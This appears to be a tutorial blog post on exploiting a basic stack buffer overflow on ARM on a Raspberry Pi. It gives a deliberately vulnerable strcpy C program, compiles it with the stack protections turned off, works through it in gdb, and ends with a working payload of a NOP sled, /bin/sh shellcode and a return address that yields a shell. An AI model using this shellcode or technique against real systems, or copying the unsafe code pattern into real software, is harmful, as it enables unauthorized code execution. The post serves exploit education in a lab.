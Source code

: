 ```yaml
---
layout: single
title: "ARM Exploitation with Raspberry Pi: Basic Stack Overflow"
header:
  image: "https://live.staticflickr.com/65535/49799517708_b32ef5ca7f_h.jpg"
  teaser: "https://live.staticflickr.com/65535/49799517708_b32ef5ca7f_h.jpg"
categories:
  - Security
tags:
  - Exploitation
  - Tutorial
  - ARM
  - Buffer Overflow
  - Raspberry Pi
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


In this post, we will exploit a vulnerable `C` program using basic `Stack Overflow` attack. Before starting reading this post you should read this post first:
[]()

## Example `C` Code
We will use the following code that uses a vulnerable function **`strcpy()`** function that does not check the limit of the content to be copied. 

Therefore, we can overflow the whole buffer and exploit the program by putting our shellcode there and calling it to be executed.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Function to test overflow
void IShouldNeverBeCalled() {
    puts("I should never be called");
    exit(0);
}

// This is our vulnerable function
void vulnerable(char *arg) {
    char buff[100];
    // to print return address
    printf("%p\n",&buff[0]);  
    strcpy(buff, arg);
}

// Pass argument in the vulnerable function
int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```

## Compilation
Assuming you have already disabled the ASLR, let's compile the code now:
```bash
$ gcc -fno-stack-protector -z execstack overflow.c -o overflow
```
Here we have disabled the stack protection (`-fno-stack-protector`) and enabled execution (`-z execstack`) within the stack.

## Debugging with `gdb`
Now, let's debug the code using **`gdb`**:
```
$ gdb -q ./overflow
```

Now, if we disassemble the main function, we will see an example disassembled code like below one:
```
gef➤  disass main
Dump of assembler code for function main:
   0x000104e4 <+0>:		push	{r11, lr}
   0x000104e8 <+4>:		add	r11, sp, #4
   0x000104ec <+8>:		sub	sp, sp, #8
   0x000104f0 <+12>:	str	r0, [r11, #-8]
   0x000104f4 <+16>:	str	r1, [r11, #-12]
   0x000104f8 <+20>:	ldr	r3, [r11, #-12]
   0x000104fc <+24>:	add	r3, r3, #4
   0x00010500 <+28>:	ldr	r3, [r3]
   0x00010504 <+32>:	mov	r0, r3
   0x00010508 <+36>:	bl	0x104b8 <vulnerable>
   0x0001050c <+40>:	mov	r3, #0
   0x00010510 <+44>:	mov	r0, r3
   0x00010514 <+48>:	sub	sp, r11, #4
   0x00010518 <+52>:	pop	{r11, pc}
End of assembler dump.
```

Now, let's put a breakpoint at address `0x0001050c` and run the program:
```
gef➤  b *0x0001050c
Breakpoint 1 at 0x1050c
```

As the buffer size is 100, the return address will be after 104th character. Now, let's put 104 character in total to overflow the buffer.
Therefore, we find the following error:
```
gef➤  run $(python -c 'print "A"*100+"BBBB"')
Starting program: /home/pi/remote_attestation/vulnerability_test/vuln_testbed/code/test@Roy/buf $(python -c 'print "A"*100+"BBBB"')

Program received signal SIGSEGV, Segmentation fault.
```

Because, we will use a `NOP sled` first, we need to know any starting address that points back to the NOP sled of the buffer. NOP stands for `No Operation` and it can be any harmless instruction or random binary. Therefore, we can look into the addresses following the instruction provided below:
```
gef➤  x/100x $sp-200
0x7efff3d8:	0x7efff49c	0x76fde10c	0x76ff97c8	0x00000001
0x7efff3e8:	0x00000001	0x00000000	0x00000000	0x76e7d224
0x7efff3f8:	0x0001051c	0x00000000	0x00010374	0x00000000
0x7efff408:	0x00000000	0x76fe5320	0x7efff434	0x7efff77c
0x7efff418:	0x0001051c	0x00000000	0x00010374	0x00000000
0x7efff428:	0x7efff598	0x7efff77c	0x00000000	0x41414141
0x7efff438:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff448:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff458:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff468:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff478:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff488:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff498:	0x42424242	0x00010500	0x7efff604	0x00000002
0x7efff4a8:	0x00000000	0x76e8f678	0x76fb4000	0x7efff604
0x7efff4b8:	0x00000002	0x000104e4	0x76ffecf0	0x7efff550
0x7efff4c8:	0xed78f5ef	0xe56ff76b	0x0001051c	0x00000000
0x7efff4d8:	0x00010374	0x00000000	0x00000000	0x00000000
0x7efff4e8:	0x76fff000	0x00000000	0x00000000	0x00000000
0x7efff4f8:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff508:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff518:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff528:	0x00000000	0x00000000	0x00000001	0x00000001
0x7efff538:	0x00001000	0x76fd89f8	0x00000000	0x7efff604
0x7efff548:	0x76fffb18	0x76fff960	0xffffffff	0x76fff000
0x7efff558:	0x76e85024	0x76ff94b0	0x7efff598	0x00000000
``` 

Now, let's target the address `0x7efff448`. We will use this address as the return address so that after copying the contents to the buffer, the return address points back to the NOP sled.

Now, let's exploit the program with our NOP sled, shellcode, and the return address. The payload looks like as follows:

```
payload = NOP sled + shellcode + return address
```
where,
```
NOP sled = "\xe1\xa0\x10\x01" (MOV R1, R1)
shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"
return address = "\x48\xf4\xff\x7e"
```
Note that we will have to put the instructions and the address from the opposite order (Little Endian). Except, here the shellcode already is in that format.

Now, let's use the payload for exploitation:
```
gef➤  run $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x48\xf4\xff\x7e"')
Starting program: /home/pi/remote_attestation/vulnerability_test/vuln_testbed/code/test@Roy/buf $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x48\xf4\xff\x7e"')
process 6637 is executing new program: /bin/dash
$ pwd
/home/pi/remote_attestation/vulnerability_test/vuln_testbed/code/test@Roy
$ 
```
So, we see, we have received the expected shell after running the command.

Here, the complete string looks like as follows:
```
\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58AAAA\x48\xf4\xff\x7e
```

## Run in terminal
Now, let's exploit the program outside the debugger. 
```bash
pi@raspberry:~$ ./overflow $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x48\xf4\xff\x7e"')

$ 
```
One thing you should rember is the return address usually changes outside the debugger because `gdb` loads environment variable in a different way.

So, use this line in your program to print the start address of the buffer first, then use the address as little endian.
```C
// to print return address
 printf("%p\n",&buff[0]);  
```


You can also read my other posts related to `Raspberry Pi`:

* [Set Static IP Address in Linux/Raspbian OS](https://shantoroy.com/linux/set-static-hostname-linux-mac-windows-raspbian/)

* [How to Configure a Raspberry Pi as Gateways between two Private Local Area Network using Ethernet Interfaces](https://shantoroy.com/raspberry%20pi/how-to-configure-raspberry-pi-as-gateway/)

* [How to fix the Ubuntu Black Screen Issue in a Raspberry Pi after Installation](https://shantoroy.com/ubuntu/ubuntu-HDMI-black-screen-issue-in-raspberry-pi/)

* [Live Video Monitoring using a Raspberry Pi and any Webcam](https://shantoroy.com/raspberry%20pi/live-monitoring-using-raspberry-pi-and-any-webcam/)

* [Set Up Headless Kali Linux in a Raspberry Pi 4 without Monitor, Keyboard, and Mouse](https://shantoroy.com/security/install-kali-linux-in-raspberry-pi-4/)

* [ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)


* [ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing](https://shantoroy.com/security/avoid-segmentation-fault-return-from-shellcode/)

* [ARM Exploitation with Raspberry Pi: ARM Ret-to-Libc](https://shantoroy.com/security/ret-to-libc-arm-exploitation-raspberry-pi/)

* [Build a Balena Cloud using Raspberry Pi](https://shantoroy.com/raspberry%20pi/balenaOS-install-raspberry-pi-balenacloud/)

-   [How to Configure a Raspberry Pi as an OpenFlow Switch: Steps, Issues, and Solutions](https://shantoroy.com/openflow/how-to-configure-raspberry-pi-as-open-flow-switch/)
<!--stackedit_data:
eyJoaXN0b3J5IjpbODE4NzgzOTUsNDczNDU2NDMxXX0=
-->